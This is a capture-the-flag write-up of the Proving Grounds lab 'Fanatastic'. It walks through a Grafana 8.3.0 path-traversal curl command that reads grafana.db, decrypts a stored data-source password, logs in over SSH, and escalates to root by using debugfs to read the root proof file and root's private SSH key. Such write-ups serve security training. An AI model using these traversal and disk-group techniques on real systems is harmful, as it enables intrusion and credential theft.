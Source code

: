 ```yaml
---
title: "Proving grounds Practice: Fanatastic"
layout: post
date: 2023-10-03 01:00
categories: writeup
---
```


Proving grounds Practice - Fanatastic CTF writeup.

## Nmap

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 03 Oct 2023 14:48:53 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
```

## PORT: 3000 - open

Grafana login page: http://192.168.194.181:3000/login

Grafana version - v8.3.0 is vulnerable to [Grafana 8.3.0 - Directory Traversal and Arbitrary File Read](https://www.exploit-db.com/exploits/50581). Run the exploit to read the local files.

Read `/etc/passwd` to know about the users in the system, `/etc/grafana/grafana.ini` to extract the secret that's been used to encrypt the grafana password. Finally, read `/var/lib/grafana/grafana.db` which contains the encrypted data source password.

User below curl command to download the `grafana.db` file.

```sh
naveenj@hackerspace:|11:12|~/proving_grounds/Fanatastic/files$ curl  --path-as-is http://192.168.194.181:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -O grafana.db
```

Open the file in sqlite and click Browse Data select the `data_source` tab and copy the basic auth detials.

```text
secret_key = SW2YcwTIb9zpOOhoPsMm
basicAuthPassword = anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```

Exploit to decrypt the password [CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798). Make changes to the code accordingly and run it.

```sh
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$ go run AESDecrypt.go 
[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] DataSourcePassword= anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
[*] plainText= SuperSecureP@ssw0rd


[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] PlainText= jas502n
[*] EncodePassword= NDAyQzFWQURLMIs9DT7F3U/R56XpIjb4tPONCv10Og==
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$
```

**Credentials**: `sysadmin:SuperSecureP@ssw0rd`

The username was found in the `/etc/passwd` file. SSH to the machine using the credentials to obtain initial foothold.


## Privilege Escalation

Upon checking for exploitation the user `sysadmin` has permission to the disk.

```sh
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin),6(disk)
```

Knowing the user is part of the disk group, the enumeration of the entire disk with root privilege is achievable. We also have full read-write access to the disk block files, so we can extricate these or write arbitrary data to them. With the disk group, we are effectively root, just in a roundabout way. We will explore the partition where the `/` (root) directory is mounted on in this case `/dev/sda2`.

```sh
sadmin@fanatastic:~$ df -h      #check for mounted disks
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /         #expoitable
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

### Exploitation

```sh
sysadmin@fanatastic:~$ debugfs /dev/sda2
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /root
debugfs:  cat proof.txt
1583█████████████████████████
debugfs:
```

In order to get a root shell read the `id_rsa` key file located on `/root/.ssh/` folder and SSH to the root user.

```sh
ebugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz1L/rbeJcJOc5T4Lppdp0oVnX0MgpfaBjW25My3ffAeJTeJwM1/R
YGtnByjnBAisdAsqctvGjZL6TewN4QNM0ew5qD2BQUU38bvq1lRdvbaD1m+WZkhp6DJrbi
42MKCUeTMY5AEPBPe4kHBN294BiUycmtLzQz5gJ99AUSQa59m6QJso4YlC7OCs7xkDAxSJ
pE56z1yaiY+y4l2akIxbAz7TVmJgRnhjJ4ZRuV2TYuSolJiSNeUyIUTozfRKl56Zs8f/QA
4Pd9AvSLZPN+s/INAULdxzgV3X9xHYh2NfRe8hw1Ju9OeJZ9lqQNBtFrit0ekpk75CJ2Z6
AMDV5tNlEcixwf/nMhjQb7Q/Oh4p7ievBk47f5t2dKlTsWw4iq1AX3FVA65n2TfD6cNISj
mxfQvXzMTPrs8KO7pHzMVQZZukOIwOEKwuZfNxIg4riGQvy4Cs+3c4w022UJ8oH36itgjr
pa4Ce+uRomYgRthDLaTNmk52TbZl0pg8AdDXB0SbAAAFgCd1RWkndUVpAAAAB3NzaC1yc2
.....
```

**Root Obtained**

```sh
naveenj@hackerspace:|21:58|~/proving_grounds/Fanatastic/files$ chmod 600 id_rsa #apply permission
nveenj@hackerspace:|21:59|~/proving_grounds/Fanatastic/files$ ssh root@192.168.192.181 -i id_rsa #ssh to root
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Mar  1 18:46:45 2022
root@fanatastic:~# 
```

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).